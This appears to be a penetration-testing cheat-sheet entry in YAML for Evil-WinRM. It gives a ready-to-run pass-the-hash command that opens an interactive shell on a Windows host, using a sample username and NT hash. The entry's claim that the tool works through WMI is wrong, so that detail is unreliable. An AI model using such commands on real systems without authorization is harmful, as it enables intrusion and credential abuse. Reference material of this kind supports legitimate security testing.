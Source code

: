 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Evil-WinRM supports passing the victim's NT hash for authorization.

  Command Reference:

  	Target IP: 10.10.10.1

  	Username: john

  	NT Hash: c23b2e293fa0d312de6f59fd6d58eae3


command: |
  evil-winrm -i 10.10.10.1 -u john -H c23b2e293fa0d312de6f59fd6d58eae3
items:
  - Username
  - Hash
services:
  - WMI
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/Hackplayers/evil-winrm
---
```

